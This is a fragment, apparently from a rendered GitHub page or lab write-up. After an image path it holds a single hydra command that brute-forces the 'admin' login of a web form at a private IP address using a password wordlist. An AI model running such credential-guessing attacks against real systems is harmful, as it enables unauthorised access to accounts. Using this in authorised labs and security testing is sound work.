 hydra -l admin -P wordlist.txt 10.103.203.58 http-post-form "/login:username=^USER^&password=^PASS^:Bad credentials! Try again"
